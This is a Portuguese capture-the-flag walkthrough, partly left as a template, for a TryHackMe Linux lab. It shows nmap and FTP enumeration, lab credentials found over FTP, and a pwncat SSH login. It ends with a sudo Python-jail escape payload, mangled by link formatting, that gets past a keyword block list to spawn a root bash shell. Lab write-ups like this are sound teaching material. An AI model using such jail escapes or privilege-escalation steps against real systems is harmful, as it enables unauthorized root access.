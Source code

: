 ```yaml
---
title: Plataforma - Nome Modelo
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Plataforma]
tags: [writeup, walkthrough, tryhackme, thm, tutorial, hacking, pentest, ctf, capture, flag, linux, medium, médio]
mermaid: true
image: https://pm1.narvii.com/6423/6ceaa4749eeb98d7ac41c7b1eead16646c7857be_00.jpg
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_facil.png) | ![](/assets/img/nivel/button_medio.png) | 16 de Dezembro de 2022 | 16 de Dezembro de 2022


## Escaneamento

Iniciamos nosso escaneamento como sempre, varrendo todas as portas, verificando as versões e realizando alguns testes rápidos de scripts.
- Comando: `nmap -sSV -A -v -Pn -p- --min-rate=10000 10.10.208.57`

```console
{nmap scan}
```

## Enumeração

Partindo para enumeração verificamos o serviço ....
### FTP (21) - Versão: vsftpd 3.0.3

- Comando: `ftp 10.10.208.57`
```console
{resultado do comando}
```

Encontramos credenciais que podem ser úteis:
> `backup@spookysec.local`:`backup2517860`
{: .prompt-info }

Podemos observar que ... então a partir desse dado encontramos o ponto de entrada


## Exploração (Acesso Inicial)

Para conseguir o acesso inicial seguimos na linha de raciocínio de utilizar tal exploit em tal serviço..

- Comando: `pwncat-cs ssh://kamishiro@10.10.208.57`
```console
01:55:24 root@m1thr4d1r tokyoghoul → pwncat-cs ssh://kamishiro@10.10.208.57
/root/.local/pipx/venvs/pwncat-cs/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[13:56:45] Welcome to pwncat 🐈!                                        __main__.py:164
Password: ***********
[13:57:16] 10.10.208.57:22: registered new host w/ db                    manager.py:957
(local) pwncat$                                                                        
(remote) kamishiro@vagrant:/home/kamishiro$ id
uid=1001(kamishiro) gid=1001(kamishiro) groups=1001(kamishiro)
```

## Pós-Exploração (Escaneamento Interno)

Com o acesso interno realiza-se uma enumeração interna utilizando ...
- Comando: `sudo -l`
```console
    [sudo] password for kamishiro: 
    Matching Defaults entries for kamishiro on vagrant.vm:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User kamishiro may run the following commands on vagrant.vm:
        (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```


```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

## Escalação de Privilégio

Sabemos que temos de alguma forma bypassar a restrição de palavras do script para escalar privilégio, assim pesquisei no google por "python jail escape" e encontrei uma possível solução...
[Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

- Comandos: `sudo /usr/bin/python3 /home/kamishiro/jail.py`

```python
**__builtins__**.__**dict__**['__**IMPORT__**'.lower()](https://www.notion.so/'OS'.lower()).__**dict__**['SYSTEM'.lower()]('/bin/bash -p')
```

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/tokyoghoul/Untitled9.png)